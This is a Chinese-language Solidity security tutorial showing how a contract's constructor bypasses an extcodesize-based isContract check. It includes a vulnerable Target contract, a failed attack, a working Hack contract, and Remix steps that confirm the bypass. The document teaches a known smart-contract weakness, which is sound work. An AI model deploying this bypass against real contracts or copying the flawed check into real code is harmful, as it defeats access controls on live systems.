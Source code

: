 # 79.Bypass Contract Size Check
## 漏洞
如果一个地址是一个合约，那么存储在该地址的代码大小肯定大于0，对吧？

让我们看看如何创建一个代码大小由extcodesize返回的合约等于0的合约。

* Tatget合约：Target合约是一个简单的合约，包含一个bool类型的状态变量pwned和一个函数protected()。该函数要求调用者不是一个合约，如果调用者是一个合约，函数将抛出一个错误。该函数将pwned变量设置为true。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract Target {
    function isContract(address account) public view returns (bool) {
        // 该方法依赖于extcodesize函数，对于正在构建中的合约，该函数返回0，因为代码只在构造函数执行结束时存储。
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    bool public pwned = false;

    function protected() external {
        require(!isContract(msg.sender), "no contract allowed");
        pwned = true;
    }
}
```
* FailedAttack合约：FailedAttack合约是一个攻击合约，尝试调用Target合约的protected()函数。但是，由于Target合约的保护机制，从合约调用将失败。
```solidity
contract FailedAttack {
    // 尝试调用Target.protected将失败，
    // Target阻止从合约调用
    function pwn(address _target) external {
        // 这将失败
        Target(_target).protected();
    }
}
```
* Hack合约：Hack合约是一个攻击合约，可以绕过Target合约的保护机制。当Hack合约被创建时，它会调用Target合约的isContract()函数来检查它自己是否是一个合约。但是，由于Target合约的isContract()函数依赖于extcodesize()函数，该函数在合约创建期间返回0，因此Hack合约将绕过isContract()检查。然后，它调用Target合约的protected()函数，将pwned变量设置为true。


```solidity
contract Hack {
    bool public isContract;
    address public addr;

    // 当合约正在创建时，代码大小（extcodesize）为0。
    // 这将绕过isContract()检查
    constructor(address _target) {
        isContract = Target(_target).isContract(address(this));
        addr = address(this);
        //这将起作用
        Target(_target).protected();
    }
}
```

## remix验证
1. 部署Target合约，调用 isContract函数输入一个合约地址，查看结果
![79-1.jpg](./img/79-1.jpg)
2. 部署FailedAttack合约，调用pwn函数输入上一步的Target合约地址，验证是否成功
![79-2.jpg](./img/79-2.jpg)
3. 部署Hack合约，将Target合约地址作为参数传入构造函数。Hack合约的构造函数调用Target.isContract()方法，但此时Hack合约的代码大小为0，因此isContract()方法返回false。
![79-3.jpg](./img/79-3.jpg)
4. Hack合约的构造函数调用Target.protected()方法，由于调用者是一个地址而不是合约，因此调用成功并将pwned变量设置为true。查看Target合约的pwned变量，应该为true，说明攻击成功。
![79-4.jpg](./img/79-4.jpg)